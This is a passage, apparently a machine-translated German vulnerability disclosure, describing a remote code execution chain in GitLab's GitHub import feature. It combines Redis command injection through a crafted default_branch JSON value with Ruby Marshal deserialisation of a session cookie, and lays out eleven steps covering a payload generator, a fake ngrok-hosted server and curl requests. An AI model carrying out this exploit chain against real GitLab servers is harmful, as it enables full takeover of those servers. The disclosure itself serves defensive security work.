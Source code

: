 Also, indem Sie eine [[API]]-Antwort mit einem zurückgeben default_branch das überschreibt to_s und bytesize Sie können beliebige Redis-Befehle aufrufen:

```json

        {
            "default_branch": {
                "to_s": {
                    "to_s": 'ggg\r\nINJECT_RESP_HERE',
                    "bytesize": 3,
                }
            }
        }

```

Dies kann kombiniert werden mit einem Anruf an Marshal.load beim Laden einer _gitlab_session, 
um ein Deserialisierungs-Gadget auszuführen (wie https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) und erhalte RCE.

### Steps to reproduce

	1.  Bearbeite gen_payload3.rb (F1882976) und ändere den Befehl unter `git_set`, das wird der Befehl sein, der ausgeführt wird.
	2.  Ändere die `session:gitlab:gggg` zu etwas anderem als `gggg`.
	3.  Starte `ruby ./gen_payload3.rb` und kopiere die Payload.
	4.  Bearbeite fake_server3.py (F1882972) und aktualisiere die Nutzlast.
	5.  Starte `ngrok http 5000` und kopiere die URL.
	6.  Bearbeite `fake_server3.py` und aktualisiere die Ngrok-URL.
	7.  Starte den Server mit `FLASK_APP=fake_server3.py flask run`.
	8.  Benutze `curl --request POST --url "http://gitlab.wbowling.info/[[api]]/v4/import/github" 
	    --header "content-type: application/json" --header "PRIVATE-TOKEN: API_TOKEN" 
	    --data "{\"personal_access_token\": \"fake_token\",\"repo_id\": \"12345\",\"target_namespace\": 
	    \"root\",\"new_name\": \"gh-import-$RANDOM\",\"github_hostname\": \"https://9895-45-248-49-157.ngrok.io\"}"`
	    und ersetze `gitlab.wbowling.info` mit deiner Gitlab-URL, `API_TOKEN` mit einem gültigen Gitlab-Token, 
	    `target_namespace` mit einem Namespace, auf den Sie Zugriff haben. Und `github_hostname` mit deiner Ngrok-URL.
	9.  Warte ungefähr eine Minute und man sollte Anfragen in der Flask-App sehen. 
	    Sobald Sie eine Anfrage für `/api/v3/repos/fake/name` sehen, sollten Sie lange genug gewartet haben. Außerdem wird ein Fehler in 
	    `/var/log/gitlab/gitlab-rails/exceptions_json.log` über `comparison of String with 0 failed` angezeigt.
	10. Benutze `curl -v 'http://gitlab.wbowling.info/root' -H 'Cookie: _gitlab_session=gggg'` 
	    und ersetze `gitlab.wbowling.info` mit deiner Gitlab-URL und `gggg` mit der Zeichenfolge, die du benutzt hast in `gen_payload3.rb`.
	11. Der Payload sollte nun ausgeführt werden.

### Impact

Ermöglicht einem Angreifer, ein Github-Repo zu importieren und beliebige Befehle auf dem Server auszuführen.
